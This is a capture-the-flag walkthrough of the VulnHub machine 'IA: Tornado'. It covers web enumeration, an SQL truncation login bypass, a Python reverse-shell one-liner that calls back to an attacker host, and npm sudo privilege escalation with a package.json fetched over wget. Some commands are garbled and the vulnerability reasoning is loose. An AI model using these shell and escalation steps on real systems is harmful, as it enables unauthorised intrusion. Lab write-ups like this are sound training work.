# IA-Tornado

## Overview :
IA: Tornado is a medium-difficulty CTF engine from VulnHub designed to test your skills in web enumeration, file analysis, and privilege escalation.
This engine is suitable for those who already understand the basics of pentesting and want to advance to more advanced techniques.

## Objective :
- Perform scanning and enumeration to identify active services and entry points.
- Exploit the discovered vulnerabilities to gain access to the system.
- Perform privilege escalation until you get root access.
- Guess some passwords to log in as root.

## The Hack :
As usual, the first thing we do is find the target IP by scanning the machines on the network we are using, using tools like netdiscover , Angry IP , etc. Here I am using netdiscover, so let's get started.
```
sudo netdiscover
```



The IP address 192.168.0.108 will be our target. Once we have it, let's run an Nmap scan to check for open ports and running services.
```
nmap -A -p- 192.168.0.108
```



The nmap scan results show that there are several ports running, because port 80 is open, which means the server is running a website, let's take a look.



As usual, the book is empty and has no meaning, so let's immediately carry out a deeper enumeration using a tool like Gobuster.
```
gobuster dir -u http://192.168.0.108/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt,html,gz,php,js,zip,img,bak -t 45
```



Yep. Look... I found the /bluesky directory. Let's take a look.



Wow. The sky looks beautiful, but the information isn't. Let's try running gobuster again, but this time add a /bluesky entry and see what we get.
```
gobuster dir -u http://192.168.0.108/bluesky -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt,html,gz,php,js,zip,img,bak -t 45
```




signup.php? Hmm... Let's check that out.



Yes this is the page to create an account, let's try to create an account with random credentials and see what we get in it.





After registering and logging in to /bluesky/login.php, I was presented with a dashboard. Let's examine each one.





So, when I click on the CONTACT entry, it doesn't work and doesn't display much other than LFI instructions. After testing, I found no LFI vulnerabilities.

While examining the source code of the web page, we noticed one out-of-place comment on the portfolio.php page.



This LFI seems plausible. After some thought and testing, nothing happened. But why don't we try viewing the page at http://192.168.0.108/~tornado/imp.txt?



YES! I'm getting multiple users. I've also tried creating accounts in /bluesky/signup.php with all the same users, but to no avail. Also, all email addresses are already registered. I was about to give up, but I finally realized the vulnerability thanks to the inspect element.

So... if we go to the /bluesky/signup.php page and create an account with a random email, the email can't be more than a few characters long. So I inspected the element and lo and behold!!!



Yes, that's the problem. The maximum length is "13"? That seemed odd, so I found this CVE. It's a SQL Truncation attack. We can access it by changing the email length parameter, inserting the email we found with LFI, and then adding our previously registered email. In this case, the system thinks I'm logged in with the account "rose@wht.com", but I'm not! I can log in with all the other users!



Change that value to 35 or higher as you wish! Now I need to find a user who can use "contacts" and I found one!





It worked! And now I can access the /bluesky/login.php page with jacob@tornado and finally access the previously blocked "contacts" entry!



Since this is a potential LFI vulnerability, I'll now try writing a payload to get a shell. I'll try using this payload:
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.101",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
Copy this and paste it into the comment field. Before you click "comment," it's a good idea to open a new terminal and use netcat to get a reverse connection.
```
nc -lnvp 1337
```


YES IT LOOKS GOOD AND I'M IN! Next type sudo -l to see if I can log in as root.
```
sudo -l
```



Hmmm... Looks like I'll have to execute this with .js. Okay, now let's go to the /tmp folder and create a new folder. Then, create a new file called index.js and use the command I gave you :
```
cd /tmp
```
Then
```mkdir shell
```
Then
```
echo 'module.exports = install could be dangerous' > index.js
```
Then
```
cp index.js shell
```



Next, we need to create a package.json to execute the shell we created earlier. I recommend opening a new terminal and creating a package.json in your directory.
```
nano package.json
```
Then fill it with this.
```
{
  "name": "shell",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "scripts": {
    "shell": "/bin/bash"
  },
  "author": "",
  "license": "ISC"
}
```
Paste and ctrl and X then Y and enter.
After you create package.json, run the python server in the following way:
```
python -m http.server 8000
```
Once you've created and run the Python server, switch to your terminal where you're connected to the target server with netcat. Then, download your package.json using the following steps:
```
wget http://192.168.0.101:8000/package.json
```



After you download it run it :
```
sudo -u catchme npm run-script shell
```
YES, look, it's no longer www-data, but cathme. Next, let's explore what I'll get.



Yes, that's how I just got the flag in user.txt. But that's not the end of it. Remember, we haven't reached the top yet, so let's move on.

Look, there are two files. If user.txt has a user flag, what is enc.py? It looks like Python code. If you're using netcat, it's best to use "head" instead of "cat" to read. Sometimes "cat" will take up part of your terminal page. So just use "head"
```
head enc.py
```
Inside is encrypted text. Hmmm... It looks like ROT13 encryption. I recommend using this for encryption, as it's similar to ROT13 encryption.



HMMK. The password contains spaces??? Well, that's not a password. It's best to use and create a simple decryption script. You can follow this :
```
```python3
import string
alphabet = string.ascii_lowercase  # "abcdefghijklmnopqrstuvwxyz"
encrypted = "hcjqnnsotrrwnqc"  # message
enc_len = len(encrypted)  # msg length
for i in range(40):
    plain_text = ""
    for c in encrypted:
        if c.islower():
            # find the position in 0-25
            c_unicode = ord(c)
            c_index = ord(c) - ord("a")
            # perform the negative shift
            new_index = (c_index - i) % 26
            # convert to new character
            new_unicode = new_index + ord("a")
            new_character = chr(new_unicode)
            # append to plain string
            plain_text = plain_text + new_character
        else:
            # since character is not uppercase, leave it as it is
            plain_text += c
    print(f"ID:{i} - {plain_text}")
```
Open your new terminal then create a file > give execution permission > then run it.
```
nano enc.py
```
Then copy and paste script and ctrl+S and xtrl+x then klik Y enter

